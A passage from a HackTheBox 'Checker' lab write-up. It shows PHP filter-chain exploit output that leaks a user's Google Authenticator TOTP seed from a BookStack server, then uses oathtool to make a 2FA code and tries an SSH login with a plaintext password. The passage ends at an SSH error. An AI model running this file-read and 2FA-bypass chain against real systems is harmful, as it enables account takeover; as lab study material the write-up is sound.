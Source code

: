 ```
--headers '{"X-CSRF-TOKEN": "5dcVWGgliR7TGbVjztGwah5FDaXX4IaYRSwmXRXA", "Cookie": "XSRF-TOKEN=eyJpdiI6IjEzNVNHMWF3NEVtU00zSDlMYkpGVnc9PSIsInZhbHVlIjoiRVFJbWZJTEtRd3ZhNno5NDA1NmdFOXVPUjhwaWRFYUdTdFVFTDZvRitOdVl0cHNpMWZlUU4zMHNpQ1ZiVDR5M0ZYZ00xQlJQYnRyRCtwUlJzR0xYbWZFL3VWN1RHWkRYZGI1TGcrVk5adXJhRHpiODN5a0tvcHE4VFROOHV6NVYiLCJtYWMiOiI5NmRkNzRmY2I2ZTNlYTFjOTU0Yzk0YWYzODc5ZWNlNmQ0ZDQ1NjE5MDYzN2EzMmIyMzYwZDdlMGY4NmFmZWYzIiwidGFnIjoiIn0%3D;bookstack_session=eyJpdiI6IlRCeXA5YXBvbE0wdkVlb01uU0ZPWVE9PSIsInZhbHVlIjoiU0g1cGhLY0hhQkVzbEh1SGg1amt3dzY0NTg4STNweVJmZW1EUm5DV0k4ZGp3YmIxZmphSlE0QjVMSWZyNkJhWWxhOHEvZk5zbzR1VU40cnB5RCs5RzM5NWQ3TWpydHRRWllRTWNRYWYxMnJQTm1lM3lZN2JOWU5RZUhmUjBoV3giLCJtYWMiOiI3MzIyMmE3YWI5NTE2ODc2OTkyNTA4MDI2NmQ3OWM0YzllZmRlNDhhMGZmZTI4MTJhZDE3MTYyOTA1ZWJiYmRkIiwidGFnIjoiIn0%3D", "Content-Type": "application/x-www-form-urlencoded"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/8/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN": "5dcVWGgliR7TGbVjztGwah5FDaXX4IaYRSwmXRXA", "Cookie": "XSRF-TOKEN=eyJpdiI6IjEzNVNHMWF3NEVtU00zSDlMYkpGVnc9PSIsInZhbHVlIjoiRVFJbWZJTEtRd3ZhNno5NDA1NmdFOXVPUjhwaWRFYUdTdFVFTDZvRitOdVl0cHNpMWZlUU4zMHNpQ1ZiVDR5M0ZYZ00xQlJQYnRyRCtwUlJzR0xYbWZFL3VWN1RHWkRYZGI1TGcrVk5adXJhRHpiODN5a0tvcHE4VFROOHV6NVYiLCJtYWMiOiI5NmRkNzRmY2I2ZTNlYTFjOTU0Yzk0YWYzODc5ZWNlNmQ0ZDQ1NjE5MDYzN2EzMmIyMzYwZDdlMGY4NmFmZWYzIiwidGFnIjoiIn0%3D;bookstack_session=eyJpdiI6IlRCeXA5YXBvbE0wdkVlb01uU0ZPWVE9PSIsInZhbHVlIjoiU0g1cGhLY0hhQkVzbEh1SGg1amt3dzY0NTg4STNweVJmZW1EUm5DV0k4ZGp3YmIxZmphSlE0QjVMSWZyNkJhWWxhOHEvZk5zbzR1VU40cnB5RCs5RzM5NWQ3TWpydHRRWllRTWNRYWYxMnJQTm1lM3lZN2JOWU5RZUhmUjBoV3giLCJtYWMiOiI3MzIyMmE3YWI5NTE2ODc2OTkyNTA4MDI2NmQ3OWM0YzllZmRlNDhhMGZmZTI4MTJhZDE3MTYyOTA1ZWJiYmRkIiwidGFnIjoiIn0%3D", "Content-Type": "application/x-www-form-urlencoded"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
[*] Info logged in : loot.txt

```

That seed, along with the current time, is what is used to generate the `2FA` six-digit number.
So I would use `oathtool` to help us get the `2FA` code
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ oathtool -b --totp DVDBRAODLCWF7I2ONA4K5LQLUE
222736

```

Then we can use this credit `reader：hiccup-publicly-genesis` and `2FA` code to ssh connect.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ ssh reader@10.10.11.56          
The authenticity of host '10.10.11.56 (10.10.11.56)' can't be established.
ED25519 key fingerprint is SHA256:u+MO4ts76K9g5kfUQeWpsBr5N+EpHTMxGoQv4K7LFgg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:198: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.56' (ED25519) to the list of known hosts.
(reader@10.10.11.56) Password: 
(reader@10.10.11.56) Verification code: 
Error "Operation not permitted" while writing config

```
